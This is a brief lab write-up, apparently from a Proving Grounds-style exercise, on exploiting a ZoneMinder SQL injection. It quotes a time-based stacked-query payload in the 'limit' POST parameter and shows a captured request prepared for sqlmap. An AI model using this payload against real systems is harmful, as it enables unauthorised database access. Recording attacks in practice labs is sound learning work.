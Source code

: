 # 3 zoneminder sqlmap

By the looks from exploit-db, attack is an inferential sqli - blind and time based.

```bash
2)SQL Injection
Example Url:http://192.168.241.131/zm/index.php
Parameter: limit (POST)
    Type: stacked queries
    Title: MySQL > 5.0.11 stacked queries (SELECT - comment)
    Payload: view=request&request=log&task=query&limit=100;(SELECT *
FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434
Easy exploitable using sqlmap.
```

## Using sqlmap

* Captured requests via Burp and modified it.

```bash
POST /zm/index.php HTTP/1.1
Host: 192.168.154.52
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

view=request&request=log&task=query&limit=100&minTime=1466674406.084434
```

* Running sqlmap

![](../../.gitbook/assets/pg-pebbles/pebbles-sql-1.png)

![](../../.gitbook/assets/pg-pebbles/pebbles-sql-2.png)

![](../../.gitbook/assets/pg-pebbles/pebbles-sql-3.png)
